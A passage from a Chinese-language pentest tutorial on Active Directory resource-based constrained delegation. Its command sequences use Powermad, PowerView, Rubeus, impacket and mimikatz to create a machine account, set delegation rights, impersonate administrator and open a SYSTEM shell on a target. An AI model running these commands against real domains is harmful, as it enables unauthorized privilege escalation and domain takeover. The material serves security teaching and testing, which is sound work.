|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```powershell<br>Import-Module .\Powermad.ps1<br>New-MachineAccount -MachineAccount evilsystem -Password $(ConvertTo-SecureString "testObject" -AsPlainText -Force)<br>``` |

添加了一个密码 testObject，名为 hacksystem 的机器账户，接下来就是配置 hacksystem 到 WIN7 的委派了。我们需要做的，是修改 WIN7 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的值 ，这个操作我们用 powerview 实现。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```powershell<br># 这里的 sid -> S-1-5-21-3298638106-3321833000-1571791979-1112<br># 是我们创建的 机器用户 evilsystem 的 sid，在 powerview 下用 <br>Get-Domiancomputer hacksystem<br># 获取<br><br>$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3298638106-3321833000-1571791979-1112)"<br><br>$SDBytes = New-Object byte[] ($SD.BinaryLength)<br><br>$SD.GetBinaryForm($SDBytes, 0)<br><br>Get-DomainComputer [目标主机名]\| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose<br>``` |

验证是否成功添加：

`Get-DomainComputer WIN7 -Properties msds-allowedtoactonbehalfofotheridentity`

配置完 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### [](#424-%E6%94%BB%E5%87%BB)4.2.4 攻击

攻击路径：user -> evil -> target

本地导出机器用户的 ntlm hash：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>Rubeus.exe hash /user:evilsystem /password:testObject /domain:xxx<br>``` |

然后用 `evilsystem$` 的 hash 请求白银票据并导入到当前会话中：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:cifs/dc /ptt<br><br>Rubeus.exe s4u /user:evilsystem$ /rc4:xxx /impersonateuser:administrator /msdsspn:host/dc /ptt<br>``` |

#### [](#425-%E6%B3%A8%E6%84%8F%E4%BA%8B%E9%A1%B9)4.2.5 注意事项

Rubeus 申请的票据和 impacket 申请的缓存票据有差别，测试时使用 Psexec 返回一个 shell 失败，需要再申请一个 HOST 票据。

impacket

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>getST.py -dc-ip IP -spn cifs/target -impersonate administrator pentest.com/evilsystem$:evil<br><br>set KRB5CCNAME=administrator.ccache<br><br>python psexec.py -nopass -k target<br><br># 或者利用 mimikatz 导入票据<br>mimikatz.exe "privilege::debug" "kerberos::ptc administrator.ccache"<br>Psexec.exe \\target -s cmd<br>``` |

#### [](#426-%E8%A7%A3%E5%86%B3%E6%95%8F%E6%84%9F%E8%B4%A6%E6%88%B7%E4%B8%8D%E8%83%BD%E5%A7%94%E6%B4%BE)4.2.6 解决敏感账户不能委派

利用条件：知道目标的主机账户的凭证

**注：** 一般情况下主机在加入域中会随机设置主机账户的密码，所以一般情况下用的是主机账户 hash，并且不能修改主机账户的密码，否则该主机就会和域失去信任。

在域环境中，高权限用户如果没有特殊需求的情况下，考虑到安全性一般是设置为不可委派，或者是加入受保护组

在以 administrator 账户身份进行 S4U 时，只能进行 S4U2SELF，不能进行S4U2PROXY。

用 `Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/target /ptt`继续实验 administrator，发现确实是这样



解密 base64 后的票据：

`rubeus.exe describe /ticker:S4Ubase64 doIFxxxxxxx`



发现 SPN 并没有指定服务

利用 Rubeus 完成票据修改：

`rubeus.exe tgssub /ticket:base64EncodeTicket /altservice:cifs/test1 /ptt`

修改后导入内存即可。

参考：

-   [http://www.const27.com/2020/10/12/域委派攻击/](http://www.const27.com/2020/10/12/%e5%9f%9f%e5%a7%94%e6%b4%be%e6%94%bb%e5%87%bb/)
-   [https://eviladan0s.github.io/2020/04/14/kerberos-delegation/](https://eviladan0s.github.io/2020/04/14/kerberos-delegation/)
-   [https://xz.aliyun.com/t/7217](https://xz.aliyun.com/t/7217)
-   [https://docs.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj553400(v=ws.11)](https://docs.microsoft.com/zh-cn/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj553400%28v=ws.11%29)
-   [https://daiker.gitbook.io/windows-protocol/kerberos/2#0x05-wei-pai](https://daiker.gitbook.io/windows-protocol/kerberos/2#0x05-wei-pai)
-   [https://blog.ateam.qianxin.com/post/wei-ruan-bu-ren-de-0day-zhi-yu-nei-ben-di-ti-quan-lan-fan-qie](https://blog.ateam.qianxin.com/post/wei-ruan-bu-ren-de-0day-zhi-yu-nei-ben-di-ti-quan-lan-fan-qie)
